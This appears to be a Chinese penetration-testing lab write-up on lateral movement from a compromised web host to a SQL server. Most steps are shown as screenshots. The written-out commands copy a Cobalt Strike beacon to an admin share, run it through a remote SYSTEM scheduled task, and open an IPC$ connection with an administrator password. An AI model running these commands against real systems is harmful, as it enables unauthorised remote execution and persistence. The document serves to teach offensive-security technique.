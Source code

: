 ```
copy beacon.exe \\192.168.3.32\c$  #拷贝执行文件到目标机器
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\3232.exe /F #创beacon任务对应执行文件
schtasks /run /s 192.168.3.32 /tn beacon /i #运行beacon任务
schtasks /delete /s 192.168.3.32 /tn beacon /f#删除beacon任务
```  
  
上线web主机后，与sql主机建立IPC连接  
  
  
shell net use \\192.168.3.32\ipc$ "admin!@[#45]()  
"   
  
/user:sqlserver\administrator  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7l0W8EOZfoHEeUTn4KPYmGlRxxnpwECEwnibNeGC3vJwKDwQqvKicmdKA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7373ORyjzKBgVKlyFSuXibMKnyrRzy6iamGzFBTVNJSnVNVGia6lvWUN0w/640?wx_fmt=png&from=appmsg "")  
  
  
然后生成一个正向后门  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7a0JFbOcBib0yKbo8LGmBmXRBCHd9CkMs1VZLNoAcbibB0vSpnSA88JKA/640?wx_fmt=png&from=appmsg "")  
  
  
copy后门到3.32  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7S0DdvtbvN3ibiaBOq4B0uPwiahdIV0u53D2bcm3VxpGh4qTCY7nhcGiaIw/640?wx_fmt=png&from=appmsg "")  
  
  
查看是否成功  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7FWd7ibpl6yVFicmgnQ5icLOt82HpgIncyDlIP3n8xmb6ibuaz2W7dvlkfA/640?wx_fmt=png&from=appmsg "")  
  
  
然后准备执行，利用计划任务。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7CickEzRfJsxgFU6WzDZ8jpeiclKcGbcOIN9aJjdBBCiccJicP5KoxoEr5A/640?wx_fmt=png&from=appmsg "")  
  
  
那就换一种计划任务。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7iccZ56VgibmvMTvmibBib0WlJ78S4B9v5Woctd3xwQXicxM55oPKEAw3oWQ/640?wx_fmt=png&from=appmsg "")  
  
  
问了下小迪才知道是权限过低的原因，那么我们需要先提权。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7UpJO0D7Nf1b9z3vvNyIuHYCa0p2mR4gKtuJCKsyouPvAF8JGt9Y2ew/640?wx_fmt=png&from=appmsg "")  
  
  
试了半天，发现工作组的administrator可以，有点奇怪哦  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7icc5n6Z3R65JLPXacpQsFUAIKhhQb88NnPgWcKAQ6SM978bqh5cwG4g/640?wx_fmt=png&from=appmsg "")  
  